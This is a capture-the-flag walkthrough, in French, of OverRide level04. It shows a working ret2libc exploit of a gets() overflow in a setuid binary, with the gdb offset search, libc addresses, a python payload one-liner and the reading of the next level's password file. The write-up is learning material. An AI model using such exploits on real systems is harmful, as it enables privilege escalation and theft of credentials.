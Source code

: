 ## Comportement
- J'ai des droits `level04` que je peux vérifier en tapant `whoami`
- Un binaire est présent avec des droits différents : `-rwsr-s---+ 1 level05 users   7797 Sep 10  2016 level04*`
En exécutant le binaire (`./level04`), on observe:
- qu'il attend un input de notre part. Quand c'est fait il semble indiquer quitter un process enfant dans lequel nous nous trouvions.
- qu'il ne segfault pas meme si l'input est tres long. Il semble attendre. 
    ```shell
    level04@OverRide:~$ ./level04 
    Give me some shellcode, k
    test
    child is exiting...
    ```
    ```shell
    level04@OverRide:~$ ./level04 
    Give me some shellcode, k
    ttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttttt
        # it's waiting here
    ```


## Analyse
En analysant le binaire (`gdb ./level03`) on observe:
- L'exécutable lance un processus enfant.
- Le processus principal utilise ensuite `ptrace` pour vérifier que le processus enfant n'utilise pas `execve`.
- Le processus enfant utilise `gets`, il est vulnerable.
    ```shell
    gdb> disas main
    ...
    0x0804875e <+150>:	call   0x80484b0 <gets@plt> 
    ...
    ```
- Mais puisque le programme attend clairement un shellcode, je vais plutot m'amuser a l'exploiter en utilisant un `ret2libc` (technique utilisée exécuter des fonctions déjà présentes dans la mémoire, comme celles de la bibliothèque C (libc), plutôt que d'injecter et d'exécuter du code shell arbitraire). Na !


## Résolution
- D'abord on trouve l'offset de l'`eip`:
    ```shell
    (gdb) run
    Starting program: /home/users/level04/level04 
    Give me some shellcode, k
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

    ```
- le probleme c'est que le programme ne segfault pas et qu'il attend indefiniment. Il faut donc indiquer a GDB de suivre le processus enfant ici : 
    ```shell
    (gdb) set follow-fork-mode child
    (gdb) run
    Starting program: /home/users/level04/level04 
    [New process 2059]
    Give me some shellcode, k
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

    Program received signal SIGSEGV, Segmentation fault.
    [Switching to process 2059]
    0x41326641 in ?? ()
    ```
- `0x41326641` correspond a un offset de 156 (etabli grace au [Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?))
- Pour notre attaque `ret2libc` nous avons maintenant besoin de l'adresse de :
    - `system()`: `info function system` => `0xf7e6aed0`
    - `exit()`: `info function exit` => `0xf7e5eb70`
    - `"/bin/sh"`: `find __libc_start_main,+99999999,"/bin/sh"` => `0xf7f897ec`
- On craft ainsi notre payload selon ce modele : `("A" * 156) + system() + exit() + "/bin/sh"` : 
    ```shell
    python -c 'print "A" * 156 + "\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\xec\x97\xf8\xf7"' > /tmp/payload
    ```
- On lance l'attaque: 
    ```shell
    cat /tmp/payload - | ./level04 
    ```
- Un shell s'ouvre avec de nouveaux privilèges : en effet, si l'on tape `whoami`, on obtient `level05`.
- Il ne reste plus qu'à :
  - récupérer le password (`cat /home/users/level05/.pass`)
  - quitter le shell (`exit`)
  - et passer au level05 (`su level05`) en renseignant ce password.



  